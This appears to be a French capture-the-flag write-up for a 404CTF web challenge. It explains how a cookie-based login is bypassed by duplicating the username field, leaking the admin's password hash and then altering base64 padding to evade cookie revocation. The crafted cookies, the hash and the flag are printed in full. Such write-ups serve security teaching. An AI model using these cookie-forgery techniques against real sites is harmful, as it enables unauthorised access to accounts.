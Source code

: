 ## Du Gâteau

### Description

On arrive sur un site implémentant un système d'authentification sans base de donnée. D'après le site, ce système pourrait présenter quelques bugs. A nous de les chercher, donc.
Une fois connecté, on remarque l'apparition d'un cookie dont le contenu est le base64 de la chaîne de caractères suivante :
```username=username;password=sha512(password)```
L'username est donc stocké en clair, tandis que le mot de passe est hashé dans le cookie.
On a également une page de changement de mot de passe, dont l'url est déterminée par le nom d'utilisateur choisi, et où le hash est stocké en clair dans la page.
Pour accéder à la page d'admin, il nous suffit d'avoir le hash du mot de passe de l'admin, puisqu'on peut choisir son username et son password à loisir en modifiant le cookie.
On peut donc essayer de changer son username en admin, et d'aller dans la page de changement de mot de passe. Seulement ça ne fonctionne pas, on dirait que le site ne veut pas nous laisser jouer avec les logs de l'admin aussi facilement.

### Exploit

Il faut donc réfléchir, en imaginant comment le système aurait pu être mal codé. Après de nombreux essais (LFI, Directory Traversal, XSS etc), on finit par essayer de jouer avec le cookie.
En essayant de ne pas mettre de mot de passe, pas d'username, et autre sournoiseries, on finit par trouver un moyen d'accéder à la page de changement de mot de passe admin. Le cookie ressemble alors à ça :
```
username=foo;username=admin;password=e05af1399f4f4beb7934c9f12ba5a9c88f7ee1e8ef3fe7a167be4b979c515d24102ad90d3a0754d48fc5930f6369a3087e686e9732ef3460e6439a95089b4800
```
Cela nous permet d'arriver à la page de modification du mot de passe admin, où l'on peut récupérer son hash : ```66651013935b4c2c31d9baba8fa5d37b809b10da453f293ec8f9a7fbb2ab2e2c1d69dc8d80969508028b5ec14e9d1de585929a4c0d534996744b495c325e3f3d```, et ainsi reconstituer un cookie :
```
username=admin;password=66651013935b4c2c31d9baba8fa5d37b809b10da453f293ec8f9a7fbb2ab2e2c1d69dc8d80969508028b5ec14e9d1de585929a4c0d534996744b495c325e3f3d
```
On obtient ainsi la chaîne ```dXNlcm5hbWU9YWRtaW47cGFzc3dvcmQ9NjY2NTEwMTM5MzViNGMyYzMxZDliYWJhOGZhNWQzN2I4MDliMTBkYTQ1M2YyOTNlYzhmOWE3ZmJiMmFiMmUyYzFkNjlkYzhkODA5Njk1MDgwMjhiNWVjMTRlOWQxZGU1ODU5MjlhNGMwZDUzNDk5Njc0NGI0OTVjMzI1ZTNmM2Q=``` pour le cookie.
En accédant à la page ```/admin``` avec ce cookie, encore un problème, le cookie _exact_ de l'admin a été révoqué. Aucun soucis, car on connaît bien sa [RFC 4648](https://datatracker.ietf.org/doc/html/rfc4648), donc le cookie devient par exemple : ```dXNlcm5hbWU9YWRtaW47cGFzc3dvcmQ9NjY2NTEwMTM5MzViNGMyYzMxZDliYWJhOGZhNWQzN2I4MDliMTBkYTQ1M2YyOTNlYzhmOWE3ZmJiMmFiMmUyYzFkNjlkYzhkODA5Njk1MDgwMjhiNWVjMTRlOWQxZGU1ODU5MjlhNGMwZDUzNDk5Njc0NGI0OTVjMzI1ZTNmM2R=```

On obtient alors le flag : 404CTF{m3f13Z_V0Us_D3s_MdP_D4nS_L3s_c00k13s!}.

